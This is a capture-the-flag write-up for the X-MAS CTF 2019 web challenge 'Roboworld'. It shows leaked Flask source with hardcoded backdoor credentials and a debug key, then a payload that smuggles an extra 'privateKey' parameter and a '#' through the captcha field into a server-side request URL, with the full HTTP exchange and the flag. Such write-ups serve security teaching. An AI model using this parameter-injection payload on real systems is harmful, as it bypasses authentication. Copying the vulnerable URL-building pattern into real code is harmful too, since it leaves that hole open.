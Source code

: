 # X-MAS CTF 2019 – Roboworld

* **Category:** web
* **Points:** 50

## Challenge

> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> 
> Can you figure out what's wrong and access the secret files?
> 
> Remote server: http://challs.xmas.htsp.ro:11000
> Files: [leak.py](leak.py)
> Author: Reda

## Solution

The webpage contains the following HTML code.

```html
<head>
    <script>
        function captchaGenerateVerificationValue()
        {
            //Devnote:
            //Oops I broke the captcha verification function
            //so it will just generate random stuff for the verification value
            //hope no one notices :O

            var characters       = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
            var charactersLength = characters.length;
            result = ""
            for ( var i = 0; i < 10; i++ ) {
                result += characters.charAt(Math.floor(Math.random() * charactersLength));
            }

            document.getElementById("captcha").value = result
        }
    </script>
</head>

Login:

<form method="post" action="/login">
    Username: <input type="text" name="user" /><br>
    Password: <input type="password" name="pass" /><br>
    Captcha: <input id="captcha" onchange="captchaGenerateVerificationValue()" type="checkbox" name="captcha_verification_value" value="" /> I am not a robot <br>
    <input type="submit" value="Login" /><br>
</form>
```

So the CAPTCHA checkbox produces random string.

Analyzing the [leak.py](leak.py) file you can discover that the following credentials are used to login:
* username: `backd00r`;
* password: `catsrcool`.

```python
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

Then you have to beat an HTTP GET service available only on localhost. It consumes the CAPTCHA token and a private key that is redacted in the source code.

A TODO comment claims that there is a debugging private key for used for testing: `8EE86735658A9CE426EAF4E26BB0450E`. This seems to be the MD5 of the string: `fuckingdog`.

You can manipulate the link used in the `requests.get` operation, via CAPTCHA parameter, excluding the existing private key parameter through `#` and forcing the debugging private key.

The payload is the following.

```
pwned&privateKey=8EE86735658A9CE426EAF4E26BB0450E#
```

So the following HTTP request can be used.

```
POST /login HTTP/1.1
Host: challs.xmas.htsp.ro:11000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://challs.xmas.htsp.ro:11000
Connection: close
Referer: http://challs.xmas.htsp.ro:11000/
Upgrade-Insecure-Requests: 1

user=backd00r&pass=catsrcool&captcha_verification_value=pwned%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E%23

HTTP/1.1 302 FOUND
Server: nginx
Date: Mon, 16 Dec 2019 21:48:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 251
Location: http://challs.xmas.htsp.ro:11000/dashboard_jidcc88574c
Connection: close
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWQiOnRydWV9.Xff7wQ.nX353pLhy-6ES9lB32QOopGmz-Y; HttpOnly; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/dashboard_jidcc88574c">/dashboard_jidcc88574c</a>.  If not click the link.
```

The page where you will be redirect is the following

```html
<h2>Welcome to the secret website where we store secret stuff</h2>
<br>
<br>
Secret Stuff:
<br>
<a href="/static/hidden_directory_1337_781/098c533dc5420628a9f51c1911198c4c.jpg">098c533dc5420628a9f51c1911198c4c.jpg</a>
<br>
<a href="/static/hidden_directory_1337_781/2.jpg">2.jpg</a>
<br>
<a href="/wtf.mp4">wtf.mp4</a>
```
It will contains three files:
* [098c533dc5420628a9f51c1911198c4c.jpg](098c533dc5420628a9f51c1911198c4c.jpg);
* [2.jpg](2.jpg);
* [wtf.mp4](wtf.mp4).

Inside the [wtf.mp4](wtf.mp4) video there is the flag, reversed in order.

```
X-MAS{Am_1_Th3_R0bot?_0.o}
```